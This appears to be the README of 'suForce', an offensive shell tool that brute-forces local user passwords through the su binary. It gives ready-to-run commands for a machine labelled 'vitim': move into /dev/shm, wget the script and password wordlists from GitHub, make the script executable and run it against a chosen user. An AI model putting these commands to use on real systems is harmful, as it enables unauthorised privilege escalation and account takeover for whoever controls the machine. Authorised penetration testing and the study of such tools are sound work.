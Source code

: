 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/screenshot.png)

- <kbd>Download</kbd>

  * suForce

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
user@vitim:~$ chmod +x suForce.sh
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
